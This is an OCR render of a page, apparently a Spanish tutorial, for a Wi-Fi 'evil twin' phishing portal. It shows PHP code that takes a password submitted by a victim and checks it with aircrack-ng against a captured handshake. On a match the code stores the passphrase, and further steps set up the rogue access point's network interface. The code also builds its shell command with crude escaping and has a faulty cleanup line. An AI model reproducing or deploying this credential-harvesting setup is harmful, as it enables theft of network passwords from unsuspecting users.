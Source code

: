 ```bash
fclose($wordlist_file);

# ... then crack the PCAP with it to see if it matches
# If ESSID contains single quotes, they need escaping
exec("aircrack-ng -e '". str_replace('\'', '\\\'', $essid) ."'" .
" -w " . $wordlist_path . " " . $handshake_path, $output, $retval);

$key_found = FALSE;
# If the exit value is 0, aircrack-ng successfully ran
# We'll now have to inspect output and search for
# "KEY FOUND" to confirm the passphrase was correct
if ($retval == 0) {
	foreach($output as $line) {
		if (strpos($line, "KEY FOUND") !== FALSE) {
			$key_found = TRUE;
			break;
		}
	}
}

if ($key_found) {

 # Save the passphrase and redirect the user to the success page
  @rename($wordlist_path, $success_path);

  header('Location: index.php?success');
} else {
  # Delete temporary file and redirect user back to login page
  @unlink($wordlist_file);

  header('Location: index.php?failure');
}
?>
```

### Configuracion de red

1. Asignacion de ip a wlan0
```bash
sudo ip addr add 192.168.87.1/24 dev wlan0
```
* Qué hace: añade una dirección IPv4 estática a la interfaz. El sufijo /24 equivale a máscara 255.255.255.0 (red 192.168.87.0/24).

* Gotchas: si la interfaz ya tiene esa IP el comando fallará; NetworkManager o systemd-networkd pueden sobreescribirla. Usar el nombre correcto de interfaz (wlan0 puede variar, ej. wlp3s0).

* Activar la interfaz:
```bash
sudo ip link set wlan0 up
```
* Qué hace: sube la interfaz (equivalente a "encenderla"). Necesario para que empiece a responder en la red.
* Instalar dnsmasq (servidor DNS y DHCP liviano)
